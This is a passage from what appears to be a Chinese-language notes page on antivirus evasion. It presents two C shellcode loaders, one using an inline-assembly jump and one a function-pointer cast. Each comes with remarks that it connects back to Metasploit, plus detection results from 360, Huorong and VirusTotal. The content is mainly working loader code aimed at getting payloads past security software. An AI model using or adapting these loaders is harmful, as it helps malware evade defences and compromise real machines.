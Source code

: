 ![image-20220530140029621](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301400718.png)

### 方法3 嵌入汇编加载（VT免杀率36/69）

```c
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE")
unsigned char shellcode[] ="";

void main()
{

        __asm
    {

        mov eax, offset shellcode
        jmp eax

    }
}
```

在vs2019中编译执行，关闭杀软，msf中可正常上线。

打开杀软，火绒和360均可查杀（原po火绒静态可查杀但是行为检测没报警，360杀毒和卫士没有反应，直接上线）。

virustotal.com上查杀率为36/69（原po为12/71）。

360：

![image-20220530141332388](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301413445.png)

火绒：

![image-20220530141410368](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301414456.png)

VT：

![image-20220530141716720](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301417844.png)

### 方法4 强制类型转换（VT免杀率34/68）

```
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] ="";

void main()
{
   ((void(WINAPI*)(void))&shellcode)();
}
```
